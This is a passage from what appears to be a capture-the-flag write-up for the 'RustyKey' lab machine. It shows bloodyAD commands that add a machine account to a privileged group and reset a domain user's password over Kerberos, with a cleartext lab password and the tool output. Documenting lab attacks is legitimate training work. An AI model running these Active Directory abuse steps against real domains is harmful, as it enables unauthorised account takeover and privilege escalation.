 At some point my friend just tried removing members from Protected Objects and was able to do it, no questions asked. So we'll just go forth and give ourselves access to the box.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k add groupMember "HelpDesk" 'IT-Computer3$'
```

    [+] IT-Computer3$ added to HelpDesk



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
```

    Traceback (most recent call last):
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/bin/.bloodyAD-wrapped", line 9, in <module>
        sys.exit(main())
                 ^^^^^^
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/main.py", line 144, in main
        output = args.func(conn, **params)
                 ^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/cli_modules/set.py", line 241, in password
        raise e
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/cli_modules/set.py", line 86, in password
        conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/network/ldap.py", line 217, in bloodymodify
        raise err
    msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
    You can try to use another password change protocol such as smbpasswd, server error may be more explicit.


This part was SUPER confusing. It wasn't until I REDID the kinit that this step could be performed.


```python
!echo "Rusty88!" | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache kinit it-computer3$
```

    Password for it-computer3$@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
```

    [+] Password changed successfully!
